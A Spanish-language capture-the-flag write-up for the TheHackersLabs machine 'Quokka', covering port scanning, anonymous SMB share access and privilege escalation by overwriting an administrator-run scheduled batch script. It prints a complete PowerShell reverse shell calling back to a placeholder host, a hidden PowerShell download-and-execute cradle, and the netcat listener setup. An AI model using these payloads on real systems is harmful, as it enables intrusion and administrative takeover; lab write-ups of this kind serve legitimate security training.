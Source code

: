 # 🏴‍☠️ Resolución del CTF "Quokka" | TheHackersLabs

**Plataforma:** TheHackersLabs  
**Nombre de la máquina:** Quokka  
**Dificultad:** Fácil  
**Enfoque:** SMB, script permisos elevados, reverse shell, payload malicioso

---

## 🔍 1. Escaneo de puertos

Realizamos un escaneo con `nmap` que reveló varios servicios abiertos:

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.1.56 -oN escaneo.txt
```

<img width="740" height="629" alt="3-nmap" src="https://github.com/user-attachments/assets/9af70c1d-1b1a-4530-8628-d7351bdfffe5" /><br>

### Puertos relevantes encontrados:
- `80/tcp` → Microsoft IIS 10.0
- `135/tcp`, `139/tcp`, `445/tcp` → Servicios SMB
- `5985/tcp` → WinRM
- Muchos puertos MSRPC (49664–49672)

---

## 📁 2. Enumeración de recursos compartidos (SMB)

```bash
smbclient -L //192.168.1.56 -N
```

<img width="443" height="109" alt="4-smbclient" src="https://github.com/user-attachments/assets/f16242c2-909e-4b77-87c0-0f16b8202a2e" /><br>

Se encontró el recurso **`Compartido`**, accesible anónimamente.

---

## 🗂 3. Navegación por carpetas compartidas

Accedimos a:

```bash
smbclient //192.168.1.56/Compartido -N
```

Carpetas exploradas:
- `Documentación` → Contenía archivos `.pptx` y `.pdf`, pero vacíos
- `Logs`, `Proyectos`

Dentro de **`Proyectos/Quokka`**, encontramos:
- `Documentación_Interna.docx` → Indicaba que el proyecto era interno
- Carpeta `Código` con archivos `.bat`. El más prometedor -> `mantenimiento - copia.bat`

---

## 💣 4. Identificación de escalada de privilegios

En `Código/`, descubrimos:

- `mantenimiento - copia.bat` con el siguiente contenido clave:
  
  ```bat
  :: Este script se ejecuta con permisos de administrador cada minuto
  move "C:\Logs\*.log" "C:\Backup\OldLogs\"
  del /q "C:\Temp\*.*"
  ```

💡 Esto reveló una **tarea programada que ejecuta el script como administrador**, lo que permite acceso con una **escalada de privilegios por sustitución de script** si tenemos permisos de escritura.

---

## ✍️ 5. Confirmación de permisos de escritura

Subimos un archivo de prueba con:

```bash
put prueba.txt
```

✅ Confirmado: podemos escribir en la carpeta donde se encuentra el script `mantenimiento.bat`.

---

## 🔥 6. Payload de reverse shell

Creamos un `shell.ps1` con una reverse shell en PowerShell y un `malicioso.bat` que lo descarga y ejecuta automáticamente:
- `shell.ps1`
  
```powershell
$client = New-Object System.Net.Sockets.TCPClient("TU_IP",4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
 $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
 $sendback = (iex $data 2>&1 | Out-String );
 $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
 $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
 $stream.Write($sendbyte,0,$sendbyte.Length);
 $stream.Flush()
}
$client.Close()
```
- `malicioso.bat`
  
```bat
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://TU_IP:8000/shell.ps1')"
```

---

## 📤 7. Sustitución del script original

```bash
put malicioso.bat mantenimiento.bat
```

---

## 📡 8. Servidor HTTP y escucha con Netcat

```bash
python3 -m http.server 8000
nc -lvnp 4444
```

---

## 🏁 9. Shell recibida como administrador

Tras un minuto:

```powershell
whoami
# win-vru3gg3dp1j\administrador
```

✔️ Escalada de privilegios completada.

---

## ✅ Técnicas utilizadas

- Enumeración de SMB anónima
- Acceso a recursos compartidos
- Identificación de script con permisos elevados
- Escalada por **escritura en script ejecutado como SYSTEM**
- Reverse shell en PowerShell (no incluida)
- Sustitución de script por payload malicioso
